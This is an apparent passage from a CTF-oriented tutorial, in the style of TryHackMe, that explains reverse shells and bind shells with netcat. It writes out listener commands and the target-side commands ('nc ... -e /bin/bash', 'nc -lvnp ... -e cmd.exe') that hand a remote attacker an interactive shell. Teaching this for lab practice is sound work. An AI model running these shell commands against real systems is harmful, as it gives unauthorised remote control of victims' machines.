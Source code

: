 
#### Reverse Shell example:
---
Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:
```
sudo nc -lvnp 443
```
On the target:
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

![img](/assets/img/wts01.png)

Notice that after running the command on the right, the listener receives a connection. When the ```whoami``` command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

---

### Bind Shell example:
---
Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute ```cmd.exe```. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:
```
nc -lvnp <port> -e "cmd.exe"
```
On the attacking machine:
```
nc MACHINE_IP <port>
```
